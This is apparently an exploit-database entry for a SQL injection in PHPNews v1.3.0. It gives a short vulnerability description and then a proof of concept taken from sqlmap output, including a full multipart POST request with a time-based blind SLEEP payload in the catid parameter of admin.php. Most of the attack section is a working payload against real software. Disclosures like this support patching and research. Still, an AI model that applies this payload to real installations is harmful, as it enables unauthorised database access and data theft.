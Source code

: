 # Exploit Title: PHPNews v1.3.0 - Sql Injection(SQLi)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from SQLi - Sql Injection Vulnerability in post2 function in admin.php allowing attackers to execute arbitrary SQL commands via the catid parameter in an HTTP POST request.

## ---------------------------------POC-----------------------------
```
POST parameter 'MULTIPART catid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 546 HTTP(s) requests:
---
Parameter: MULTIPART catid ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="image1"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="image2"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="image3"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="subject"

post4
------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="titletext"

ppppp
------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="maintext"

sndjsanjak
------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="catid"

1' AND (SELECT 3825 FROM (SELECT(SLEEP(5)))EGkf) AND 'hSPf'='hSPf
------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="break"

1
------WebKitFormBoundaryGOFtBA5Q6MsAzcMI
Content-Disposition: form-data; name="post"

Submit
------WebKitFormBoundaryGOFtBA5Q6MsAzcMI--
---
```